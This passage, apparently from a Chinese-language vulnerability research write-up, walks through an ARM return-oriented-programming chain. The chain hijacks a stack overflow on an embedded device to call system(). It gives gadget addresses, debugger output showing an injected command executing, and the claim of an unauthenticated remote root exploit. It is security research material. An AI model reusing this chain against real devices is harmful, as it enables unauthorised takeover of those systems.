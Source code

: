 由于r0在ARM架构中用作第一个参数，我们只需要在ROP链的前面设置r0为我们能够控制内容的地方。我们的想法是在栈上写完整的命令，因为我们在有效载荷中有足够的空间。然后将栈的地址放入r0，然后调用system。在查看/lib/libstdc++.so.6中的小工具后，我们发现了这三个。小工具1

这里重要的是，它将sp+8迁移到r0。然后发生了很多事情，但它从sp加载了pc的值。所以在这之后，我们的r0中有sp+8。快完成了。  
```
0x4fd82130 add r0, sp, #8 ; cmp r3, r2 ; movge r3, #0 ; movlt r3, #1 ; strb r3, [r0, #-1]! ; bl #0x4fd82024 ; add sp, sp, #0xc ; ldm sp!, {pc}
```  
  
小工具2r0指向我们的ropchain。我们希望它指向我们注入的命令。这个巧妙的小工具将为我们解决这个问题，然后返回到小工具3。  
```
0x4fdd3520 : add r0, r0, #0x20 ; pop {r4, pc}
```  
  
小工具3

现在r0已经固定了。但是我们的ropchain的第三步不能是我们的系统调用。还记得我们的空字节问题吗？我们必须把带有空字节的system小工具放在我们缓冲区输入（macParameter）的末尾。所以我们使用这个小工具进一步迁移到我们栈输入的末尾。  
```
0x4fda08c4 : add sp, sp, #0x2c ; pop {r4, r5, r6, r7, r8, sl, pc}
```  
  
现在有了这三个小工具，我们可以把包含空字节的0x1612c放在我们输入缓冲区的末尾。所以现在我们有一个100%可靠的漏洞利用。让我们调试它，看看会发生什么：  
```
$r0  : 0xadb7ac27  →  "/bin/touch /arbitrary command # aaaabaaacaaaaaabaaacaaadaaae[...]"
--SNIP--
────────────────────────────────────────────────────────────────────────────── stack ────
0xadb7ac60│+0x0000: 0x00000000   ← $sp
0xadb7ac64│+0x0004: 0x00000020 (" "?)
0xadb7ac68│+0x0008: 0x00000010
0xadb7ac6c│+0x000c: 0x0057704c  →   push {r11,  lr}
0xadb7ac70│+0x0010: 0xadb7ac8c  →  0x00577110  →   push {r11,  lr}
0xadb7ac74│+0x0014: 0x00000000
0xadb7ac78│+0x0018: 0x00000001
0xadb7ac7c│+0x001c: 0x00000000
─────────────────────────────────────────────────────────────────────── code:arm:ARM ────
      0x16120                  bl     0x152b4 <memcpy@plt>
      0x16124                  sub    r3,  r11,  #456   ; 0x1c8
      0x16128                  mov    r0,  r3
 →    0x1612c                  bl     0x15530 <system@plt>
   ↳     0x15530 <system@plt+0000> add    r12,  pc,  #17825792  ; 0x1100000
         0x15534 <system@plt+0004> add    r12,  r12,  #892928   ; 0xda000
         0x15538 <system@plt+0008> ldr    pc,  [r12,  #556]!    ; 0x22c
         0x1553c <std::basic_stringstream<char, std::char_traits<char>, std::allocat
```  
  
太棒了！system调用执行了带有/bin/touch /arbitrary command的命令。这里的一个小细节是它会运行直到遇到空字节。这包括我们最后的调用系统的gadget，因为它在栈的更下方。但这真的不是问题，因为我们用#来终止它。  
  
现在我们已经实现了100%可靠的未经认证的远程root漏洞利用！  
### 制作漏洞利用有效载荷  
  
由于我们有幸拥有一个物理设备，calc.exe就不够看了。不过在屏幕上画画并在扬声器中播放《星球大战》的帝国进行曲绝对能够达到效果！（也许还有一点点calc）  
  
嵌入式设备通常使用帧缓冲区。这些通常可以在/dev/fb0中找到。这些可以通过将有效的图像cat进去来简单地写入。  
  